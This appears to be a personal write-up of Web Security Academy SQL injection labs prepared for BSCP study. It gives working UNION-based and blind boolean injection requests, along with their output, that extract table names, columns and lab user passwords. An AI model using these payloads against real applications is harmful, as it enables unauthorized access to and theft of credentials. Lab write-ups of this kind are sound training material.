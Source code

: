 # SQL Injection Labs for BSCP

## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

## Blind SQL injection with conditional responses

```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check if execution happens
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check fist letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# First match
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Second Letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Third
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA

# Final 
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
```

This could have been done way more efficiently by using the intruder feature of
BurpSuite.

